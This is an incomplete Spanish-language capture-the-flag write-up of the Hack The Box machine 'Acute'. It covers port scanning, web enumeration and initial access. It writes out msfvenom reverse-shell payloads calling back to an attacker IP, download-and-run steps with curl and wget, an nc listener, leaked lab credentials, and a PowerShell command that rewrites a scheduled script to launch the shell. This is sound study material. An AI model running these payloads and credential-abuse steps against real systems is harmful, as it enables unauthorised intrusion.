 # **Máquina: [Acute]**

![[Pasted image 20250531133316.png]]
## **Información General**

| Machine Info              |         |
| ------------------------- | ------- |
| **IP**                    |         |
| **Dificultad**            | Hard    |
| **Sistema Operativo**     | Windows |
| **Método de Explotación** |         |

---

## **1️ - Escaneo y Enumeración**

### **Escaneo de Puertos**

```zsh
htbscan -n Acute -i 10.10.11.145 -v ~/VPN/lab_4ly3zz.ovpn

[+] Ejecutando escaneo Nmap inicial:
    sudo nmap -sC -sS --min-rate 5000 --open -Pn -oN /home/alien/4ly3nzz/HTB/Acute/enum/scan_Acute 10.10.11.145
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-02 08:36 CEST
Nmap scan report for 10.10.11.145
Host is up (0.040s latency).
Not shown: 999 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT    STATE SERVICE
443/tcp open  https
|_http-title: Not Found
|_ssl-date: 2025-06-02T06:36:00+00:00; -1s from scanner time.
| tls-alpn: 
|_  http/1.1
| ssl-cert: Subject: commonName=atsserver.acute.local
| Subject Alternative Name: DNS:atsserver.acute.local, DNS:atsserver
| Not valid before: 2022-01-06T06:34:58
|_Not valid after:  2030-01-04T06:34:58

Host script results:
|_clock-skew: -1s

Nmap done: 1 IP address (1 host up) scanned in 5.90 seconds
[+] Escaneo guardado en: /home/alien/4ly3nzz/HTB/Acute/enum/scan_Acute
[*] Extrayendo puertos abiertos del escaneo...
[+] Puertos abiertos detectados: 443
[+] Ejecutando escaneo profundo:
    sudo nmap -sV -p 443 -Pn -oN /home/alien/4ly3nzz/HTB/Acute/enum/deep_scan_Acute 10.10.11.145
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-02 08:36 CEST
Nmap scan report for 10.10.11.145
Host is up (0.041s latency).

PORT    STATE SERVICE  VERSION
443/tcp open  ssl/http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows


```

### **Enumeración Web**

![[Pasted image 20250602084104.png]]

```
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u https://atsserver.acute.local/FUZZ -mc 200,301 -c
```

Nada interesante.

- Nos descargamos un archivo.

![[Pasted image 20250602090205.png]]

![[Pasted image 20250602101704.png]]


### **Enumeración SMB/NFS/etc.**

---

## **2️ - Explotación Inicial**

### **Identificación de Vulnerabilidades**

Password1!

directorio /acute_staff_access

![[Pasted image 20250602101913.png]]

- El usuario es edavies
### **Explotación del Acceso Inicial**

Shell as edavies

![[Pasted image 20250602102911.png]]

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.4 LPORT=4444 -f exe > shell.exe
```

```
curl 10.10.14.4/shell.exe -o shell.exe
```

```
python3 -m http.server 80
```

![[Pasted image 20250602104856.png]]

![[Pasted image 20250602104845.png]]

```
curl 10.10.14.4/winPEASany.exe -o winPEASany.exe
```

![[Pasted image 20250602105351.png]]

- Con meterpreter podemos sacar una captura de pantalla

![[Pasted image 20250602111402.png]]

```
ps
```

![[Pasted image 20250602112130.png]]

![[Pasted image 20250602112802.png]]

```
meterpreter > migrate 3640
[*] Migrating from 2696 to 3640...
[*] Migration completed successfully.
meterpreter > 
```

![[1_6wFJf6JqxwmyPhndAI2C_w.webp]]

```powershell
$passwd = ConvertTo-SecureString "W3_4R3_th3_f0rce." -AsPlaintext -Force

$cred = New-Object System.Management.Automation.PSCredential ("acute\imonks",$passwd)

Enter-PSSession -computername ATSSERVER -ConfigurationName dc_manage -credential $cred

```

```powershell
Invoke-Command -Computername ATSSERVER -ConfigurationName dc_manage -Credential $cred -Command {whoami}
```

```powershell
Invoke-Command -Computername ATSSERVER -ConfigurationName dc_manage -Credential $cred -Command {Get-Command}
```

```powershell
Invoke-Command -Computername ATSSERVER -ConfigurationName dc_manage -Credential $cred -Command {Get-Alias}
```

```powershell
Invoke-Command -Computername ATSSERVER -ConfigurationName dc_manage -Credential $cred -Command {Get-ChildItem -force C:\users\imonks\desktop}
```

```powershell
Invoke-Command -Computername ATSSERVER -ConfigurationName dc_manage -Credential $cred -Command {cat C:\users\imonks\desktop\wm.ps1}

PS C:\Utils> Invoke-Command -Computername ATSSERVER -ConfigurationName dc_manage -Credential $cred -Command {cat C:\users\imonks\desktop\wm.ps1}
Invoke-Command -Computername ATSSERVER -ConfigurationName dc_manage -Credential $cred -Command {cat C:\users\imonks\desktop\wm.ps1}
$securepasswd = '01000000d08c9ddf0115d1118c7a00c04fc297eb0100000096ed5ae76bd0da4c825bdd9f24083e5c0000000002000000000003660000c00000001000000080f704e251793f5d4f903c7158c8213d0000000004800000a000000010000000ac2606ccfda6b4e0a9d56a20417d2f67280000009497141b794c6cb963d2460bd96ddcea35b25ff248a53af0924572cd3ee91a28dba01e062ef1c026140000000f66f5cec1b264411d8a263a2ca854bc6e453c51'
$passwd = $securepasswd | ConvertTo-SecureString
$creds = New-Object System.Management.Automation.PSCredential ("acute\jmorgan", $passwd)
Invoke-Command -ScriptBlock {Get-Volume} -ComputerName Acute-PC01 -Credential $creds
PS C:\Utils> 
```

```powershell
Invoke-Command -Computername ATSSERVER -ConfigurationName dc_manage -Credential $cred -Command {net user jmorgan}
```

```
net localgroup administrators
```

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.4 LPORT=443 -f exe -o sh.exe
```

```
wget http://10.10.14.4/sh.exe -o sh.exe
```

```
rlwrap nc -lvnp 443
```

```
Invoke-Command -Computername ATSSERVER -ConfigurationName dc_manage -Credential $cred -ScriptBlock {((Get-Content C:\Users\imonks\Desktop\wm.ps1 -Raw) -Replace 'Get-Volume','cmd.exe /c C:\Utils\sh.exe') | Set-Content -Path C:\Users\imonks\Desktop\wm.ps1}
```

```
Invoke-Command -Computername ATSSERVER -ConfigurationName dc_manage -Credential $cred -Command {cat C:\users\imonks\desktop\wm.ps1}
```

```
Invoke-Command -Computername ATSSERVER -ConfigurationName dc_manage -Credential $cred -Command {C:\users\imonks\desktop\wm.ps1}
```



---

## **3️ - Escalada de Privilegios**

### **Enumeración Post-Explotación**

### **Escalada de Privilegios a Root/System**

---

## **4️ - Obtención de Flags**

| **User Flag** |     |
| ------------- | --- |
| **Root Flag** |     |

---

## **5️ - Notas y Aprendizajes**

### **Errores y Obstáculos**

### **Métodos Alternativos**

### **Herramientas Utilizadas**